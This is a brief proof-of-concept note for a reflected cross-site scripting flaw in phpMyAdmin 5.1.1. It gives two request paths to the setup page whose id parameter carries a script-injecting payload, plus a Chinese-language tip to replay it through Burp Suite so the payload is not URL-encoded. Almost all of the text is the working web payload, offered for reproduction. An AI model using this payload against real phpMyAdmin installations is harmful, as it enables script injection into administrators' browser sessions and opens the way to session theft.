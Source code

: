 phpmyadmin 5.1.1 XSS

payload:

/setup/index.php?page=servers&mode=test&id=">'>\<script>alert(document.domain)\</script> 

/phpmyadmin/setup/index.php?page=servers&mode=test&id=">'>\<script>alert(document.domain)\</script>

注意：
复现时别让payload被url编码，可使用burpsuit等工具抓包复现

